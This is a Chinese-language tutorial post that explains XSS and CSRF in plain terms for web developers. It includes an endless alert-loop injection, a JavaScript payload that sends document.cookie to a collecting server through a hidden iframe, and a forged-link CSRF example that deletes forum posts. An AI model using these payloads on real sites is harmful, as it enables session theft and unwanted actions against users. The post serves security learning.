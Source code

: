 >参考自[《前端——影子杀手篇》](https://segmentfault.com/a/1190000011486364)、[《用大白话谈谈XSS与CSRF》](https://segmentfault.com/a/1190000007059639)

>关于Web的各种攻击方式，之前自己了解的很少，现在通过各种途径来广泛了解一下。因为后续自己要开发一个Web项目，从需求、设计、开发、功能测试、性能测试、压力测试、性能调优、安全测试等全方面都要自己做，所以各方面都会在这个过程中慢慢补

## 简介

XSS和CSRF这两个关键词也是老生常谈了，但还总是容易让人忘记和搞混

XSS与CSRF这两个关键词时常被拉出来一起比较（尤其是面试），我在这里也在写一篇扫盲文，也帮自己整理一下知识脉络

这篇文章会用尽量“人话”的语言解释这二个关键词，让同学们对跨域，安全有更深一层次的了解

国际惯例，先上一下维基百科：

XSS：跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。**这类攻击通常包含了HTML以及客户端脚本语言**

CSRF：跨站请求伪造（英文：Cross-site request forgery），也被成为one-click attack或session riding，通常缩写为CSRF或XSRF，是一种挟制用户在当前已登录的Web应用程序上**执行非本意的操作的攻击方式**

## 开始白话

维基的解释依旧高深莫测，接下来用“人话”给大家解释一下

XSS：通过客户端脚本语言（最常见如JavaScript）在一个论坛发帖中发布一段恶意的JavaScript代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做XSS

CSRF：又称为XSRF，冒充用户发起请求（在用户不知情的情况下），完成一些违背用户意愿的请求（比如恶意发帖、删帖、改密码、发邮件等）

>很多同学会搞不明白XSS与CSRF的区别，虽然这两个关键词时常抱团出现，但它们两个是不同维度的东西（或者说它们的目的是不一样的）

>XSS更偏向于方法论，CSRF更偏向于一种形式，只是要伪造用户发起的请求，都可称为CSRF攻击

通常来说CSRF是由XSS实现的，所以CSRF时常也被成为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝对不止一种，还可以直接通过命令行模式，即命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）

XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子中，然后有用户访问这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了

简单来说，条条大路（XSS路、命令行路）通罗马（CSRF马）

## XSS代码示例

场景：在一条帖子中写下如下代码，发了出去，然后陆陆续续很多无知的用户访问到这个帖子，然后用户接下来的所有操作都被这段代码掌控了

如下

```
while(true){
    alert('你关不掉我');
}
```

这个就是最原始的脚本注入了。用户进来就麻烦了，一直弹窗一直弹窗

那么XSS（跨站脚本）就是照葫芦画瓢了，用JavaScript写一个请求跨站的脚本就是XSS，如下

```
//用<script type="text/javascript"></script>包起来放在评论中
(function(window, document){
    //构造泄漏信息用的URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    //建立隐藏iframe用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    dideFrame.src = xssURI;
    //开工
    document.body.appendChild(hideFrame);
})(window, document);
```

这段代码携带者cookie信息传输给了`http://192.168.123.123/myxss/...`这段服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php中写一些可怕的代码，如吧用户信息存进自己的数据库）

>有没有感觉到背后一凉

看到这里感觉到危险了吧（想想初学程序时我们的站点完全没有这个意识，活生生的是在裸奔），既然这段代码注入能携带着用户信息到收集服务器，那么再研究研究，它自然能发邮件、发帖、一系列业务逻辑

这里说一下：上面的代码仅仅是XSS，并没有发生CSRF，因为`192.168.123.123/myxss/index.php`仅仅是把用户信息存起来了而已，它并没有“伪造”用户发起一些请求，所以它只算是XSS攻击而不算是CSRF攻击，如果`192.168.123.123/myxss/index.php`写的代码是将当前用户的昵称修改为“我是大笨蛋”，那么就算是CSRF攻击了，因为这段代码伪造出用户发出了请求（但用户却不自知）

## CSRF攻击实例

下面介绍一个最最简单的CSRF攻击（并没有用到XSS）

一个论坛，经过我的多次抓包分析（注重分析请求返回头、请求返回体）了解到这个论坛的删帖操作是触发`csdnblog.com/bbs/delete_article.php?id="X"`，那么我只需要在论坛中发一贴，包含一链接：`csdnblog.com/bbs/delete_article.php?id="X"`，只要有用户点击了这个链接，那么ID为X的这篇文章就被删除了，而且是用户完全不知情的情况下

此处我可没有写CSS脚本，纯粹只是发一个URL地址而已，既然删除操作可以伪造，那么只要我细细分析，其他操作：发帖、改名字、发私信，只要是这个论坛具有的功能，都可以进行伪造

## 反思

这里知识对XSS、CSRF做了简单的介绍，后续还是重点弄清楚XSS、CSRF的原理，而不是死学所有方法，只有原理弄清楚了，才知道可能有哪些方法可以实现攻击（帮助自己编写安全测试用例），只有清楚了原理才能在原理层面做防护来应对所有攻击方法（而不是针对每一种方法新增一种防护方法）
